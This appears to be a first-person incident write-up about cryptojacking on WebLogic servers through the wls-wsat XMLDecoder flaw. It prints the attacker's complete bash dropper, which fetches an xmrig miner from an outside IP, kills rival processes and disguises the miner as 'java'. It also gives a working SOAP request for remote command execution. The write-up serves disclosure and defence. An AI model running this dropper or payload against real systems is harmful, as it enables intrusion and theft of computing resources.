 ## Weblogic Vulnerability /wls-wsat/CoordinatorPortType wls-wsat.war

It was the day after new year. In one morning all of our java instances had been killed. We first suspected there was a manual reboot. 
So we started our application server as usual. We first started our node managers. Then started our admin server and our java applications so on.

While we were working on these jobs, suddenly in one machine all of our java processes had been killed again. We immediately informed our product owner saying that there could be a manual intervention somewhere else even if we could not find the logged in user. We also suspected that the ssh user had been compromised then changed the password with a relief.

Everything went normally for two hours. Then the ultimate catastrophic event happened. Our java instances had been killed again. When we check the processes there were two java processes which eat up the cpu like a hungry pig. We decided not to kill these processes but examine them. When we inspect it with netstat we saw that they send packages to the following IP address.

```
http://145.239.0.84/
Mining Pool Online
```

We checked the history and could not believe our eyes.

```
#!/bin/bash
sPid=$$
mPid=''
mName='java'
checkCmd() {     command -v $1 >/dev/null 2>&1; }
downloader () {     if checkCmd wget; then         wget $1 -O $2 ;     elif checkCmd curl; then         curl $1 -o $2;     elif checkCmd python; then         if [ "`python -c "import sys; print(sys.version_info[0])"`" = "3" ]; then             python -c "from urllib.request import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         else             python -c "from urllib import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         fi;     else         cat < /dev/tcp/165.227.215.25/5555 > $2;     fi;     chmod +x $2; }
killer() {     for tmpVar in `ps -aeo pid,%cpu,command | sed 1d | sort -k 2 | tail -n 10 | awk '{print $1}'`; do         if [ $tmpVar = $sPid ]; then             continue;         fi;         if [ $tmpVar = $mPid ]; then             continue;         fi;         if [ `ps -o %cpu $tmpVar | sed 1d | sed 's/\..*//g'` -ge 60 ]; then             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep java` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep sh` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep bash` ]; then                 continue;             fi;             kill -9 $tmpVar;             rm -f `ls -l /proc/$tmpVar/exe 2>&1 | sed 's/.*-> //g'`;         fi;     done; }
runer() {     if [ -z "$mPid" ]; then         if [ ! -f $mName ]; then             downloader http://165.227.215.25/xmrig-y $mName;         fi;         chmod +x ./$mName;         ./$mName;     fi;     mPid=`ps -eo pid,command | grep $mName | head -n 1 | awk '{print $1}'`; }
pkill python; pkill $mName
downloader http://165.227.215.25/xmrig-y $mName
```

Someone had been killed all of our processes except its process. Downloaded a modified executable named xmrig which was apparently a Monero (XMR) CPU miner. Started this executable and started mining XMR on our servers. The process was named as java and was sending data to the Mining Pool Online (http://145.239.0.84/)

We were shocked. After a couple of hours of blaming and panicking we discovered that it was a sneaky attack on our WebLogic servers.

There is a path in WebLogic server wls-wsat/CoordinatorPortType which can be used to execute any kind of soap request. So when I post this request.

```
POST your_host/wls-wsat/CoordinatorPortType HTTP 1.1

Host: host_name
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: wp-settings-time-1=1506773666
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">;;
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">;;
            <java version="1.8" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>ls -l >> a_random_file.txt |bash</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body />
</soapenv:Envelope>

```

The soap request has been executed ending with creating a file named a_random_file.txt with ls -l information in it. The request mainly creates a ProcessBuilder object and executes it!!!
So only with an HTTP request, I can execute any command on the remote server!!!

We were actually happy when we discovered that. 

Our solution was to delete the responsible war. You can find it with the following command.

```
locate wls-wsat.war
```

Just delete it. Do not spend time for patching your useless Weblogic server. 
Weblogic sucks!!!
